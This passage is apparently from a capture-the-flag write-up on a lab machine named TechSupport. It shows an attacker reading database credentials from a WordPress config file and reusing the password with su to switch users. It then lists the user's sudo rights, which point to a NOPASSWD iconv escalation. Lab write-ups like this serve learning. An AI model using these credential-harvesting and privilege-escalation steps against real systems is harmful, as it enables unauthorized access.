 ![Pasted image 20250720172109.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250720172109.png)

Now we can retry stabilization :

![Pasted image 20250720172446.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250720172446.png)
# Lateral Movement - Privilege Escalation

We start [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) with [Lateral Movement](../../3%20-%20Tags/Hacking%20Concepts/Lateral%20Movement.md) , both Subrion and [Wordpress](../../3%20-%20Tags/Hacking%20Concepts/Wordpress.md) will have database credentials stored in config files, so let’s see if we can find the password for the scamsite user :

```
www-data@TechSupport:/var/www/html/wordpress$ cat wp-config.php | grep DB
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8' );
define( 'DB_COLLATE', '' );
```

Now we try to access with this password :

```
www-data@TechSupport:/var/www/html/wordpress$ su scamsite
Password: 
scamsite@TechSupport:/var/www/html/wordpress$ 
```

And we have a shell with scamsite user, let's try `sudo -l` :

```
scamsite@TechSupport:/var/www/html/wordpress$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv

```
